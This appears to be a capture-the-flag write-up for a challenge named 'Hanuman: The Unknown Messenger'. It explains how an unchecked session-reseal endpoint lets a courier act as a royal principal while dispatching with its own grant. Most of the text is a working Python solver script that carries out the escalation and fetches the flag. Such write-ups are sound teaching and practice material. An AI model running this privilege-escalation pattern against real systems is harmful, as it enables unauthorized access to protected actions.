




# K01 - Hanuman: The Unknown Messenger

**Flag:** `PINAKA{kishkindha_the_exile_meets_the_outcast_king}`
Target: `http://130.210.48.10:9006`

## In short

The courier gets a self-grant signed for the `guild` principal. `/court/reseal` lets the courier pick which principal it acts as, and never checks that against the principal in the grant. So I reseal as `sugriva`, dispatch with the perfectly valid guild grant, and get the royal war-writ.

## The relay

Routes: principal discovery, open session, reseal, dispatch. `/court/open` hands back the session ID, a token, an HMAC key and the self-grant.



## The seal

The dispatch needs a seal over the scroll:

1. `sha256("war-writ")` as hex
2. HMAC-SHA256 over `sid|<that hex>`, keyed with the session key (hex-decoded)
3. URL-safe base64, no padding



## Exploit

Send `on_behalf: sugriva` to `/court/reseal`, then dispatch the writ with the same token, the original `self_grant` and the seal. The audit log is a nice confirmation of the bug: it attributes the dispatch to `guild` while listing `sugriva` as the acting principal.



The relay answered `result: sealed` with the flag.




## Solver (`solve.py`)

```python
#!/usr/bin/env python3
"""Use the relay's self-grant after resealing the courier session to SuGriva."""
import base64
import hashlib
import hmac
import json
import urllib.error
import urllib.request
from pathlib import Path
import os

BASE = os.environ.get("PINAKA_K01_URL", "http://130.210.48.10:9006").rstrip("/")


def request(method, path, payload=None):
    headers = {"Content-Type": "application/json"}
    data = None if payload is None else json.dumps(payload, separators=(",", ":")).encode()
    req = urllib.request.Request(BASE + path, data=data, headers=headers, method=method)
    try:
        with urllib.request.urlopen(req, timeout=30) as response:
            raw = response.read()
            return json.loads(raw) if raw else {}
    except urllib.error.HTTPError as exc:
        raise RuntimeError(f"{method} {path}: HTTP {exc.code}: {exc.read().decode(errors='replace')}") from exc


def main():
    roster = request("GET", "/court/principals")
    principals = roster.get("principals", []) if isinstance(roster, dict) else roster
    if principals and "sugriva" not in str(principals).lower():
        raise RuntimeError("royal principal SuGriva was not present in the roster")
    print("Royal roster checked.")

    session = request("POST", "/court/open", {})
    sid = session["sid"]
    token = session["session_token"]
    session_key = bytes.fromhex(session["session_key"])
    grant = session["self_grant"]
    print("Courier session opened:", sid)

    resealed = request("POST", "/court/reseal", {
        "sid": sid,
        "session_token": token,
        "on_behalf": "sugriva",
    })
    if resealed.get("ok") is False:
        raise RuntimeError(f"session reseal rejected: {resealed}")
    print("Session resealed to: sugriva")

    scroll = "war-writ"
    digest = hashlib.sha256(scroll.encode("utf-8")).hexdigest()
    message = f"{sid}|{digest}".encode("utf-8")
    seal = base64.urlsafe_b64encode(hmac.new(session_key, message, hashlib.sha256).digest()).decode().rstrip("=")
    result = request("POST", "/court/dispatch", {
        "sid": sid,
        "session_token": token,
        "scroll": scroll,
        "seal": seal,
        "grant": grant,
    })
    print("Dispatch result:")
    print(json.dumps(result, indent=2, sort_keys=True))
    flag = result.get("flag")
    if not flag:
        raise RuntimeError("dispatch response did not include the flag")
    print("Flag:", flag)
    (Path(__file__).resolve().parent / "transcripts" / "05_flag.txt").write_text(f"Relay flag: {flag}\n")


if __name__ == "__main__":
    main()
```
